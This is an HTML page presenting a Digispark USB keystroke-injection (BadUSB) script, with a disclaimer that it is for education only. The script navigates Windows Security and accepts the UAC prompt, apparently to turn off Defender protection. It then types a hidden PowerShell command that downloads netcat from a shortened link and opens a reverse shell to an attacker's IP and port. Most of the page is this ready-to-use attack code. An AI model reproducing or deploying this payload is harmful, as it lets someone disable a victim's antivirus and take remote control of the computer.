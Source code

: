 <!DOCTYPE html>
<html>
<head>
  <title>Script Breakdown</title>
  <style>
    h1 {
      text-align: center;
      font-style: italic;
    }
    .code-line {
      font-family: monospace;
      margin-bottom: 10px;
    }
    .code-comment {
      color: green;
    }
    .code-delay {
      color: blue;
    }
    .code-key {
      color: purple;
    }
    .code-modifier {
      color: orange;
    }
  </style>
</head>
<body>
  <h1>Script Breakdown</h1>
  
  <div class="code-line">#include "DigiKeyboard.h"</div>
  <div class="code-line">void setup() {</div>
  <div class="code-line code-delay">  DigiKeyboard.delay(1000);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</div>
  <div class="code-line code-delay">  DigiKeyboard.delay(1000);</div>
  <div class="code-line">  DigiKeyboard.print("virus &amp; threat protection");</div>
  <div class="code-line code-delay">  DigiKeyboard.delay(500);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(KEY_ENTER);</div>
  <div class="code-line code-delay">  DigiKeyboard.delay(5000);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(43);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(43);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(43);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(43);</div>
  <div class="code-line code-delay">  DigiKeyboard.delay(700);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(KEY_ENTER);</div>
  <div class="code-line code-delay">  DigiKeyboard.delay(700);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(KEY_SPACE);</div>
  <div class="code-line code-delay">  DigiKeyboard.delay(2000);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</div>
  <div class="code-line code-delay">  DigiKeyboard.delay(1000);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</div>
  <div class="code-line code-delay">  DigiKeyboard.delay(500);</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</div>
  <div class="code-line code-delay">  DigiKeyboard.delay(700);</div>
  <div class="code-line">  DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe &lt;ip&gt; &lt;port&gt; -e powershell.exe");</div>
  <div class="code-line code-key">  DigiKeyboard.sendKeyStroke(KEY_ENTER);</div>
  <div class="code-line">}</div>
  
  <script>
    // Empty loop function
    void loop() {}
  </script>
  
  <h2>Warning</h2>
  <em>Everything in this repository is intended for educational purposes only. I am not responsible for any wrong behavior on your part. You are responsible for your actions using the script.</em>
</body>
</html>
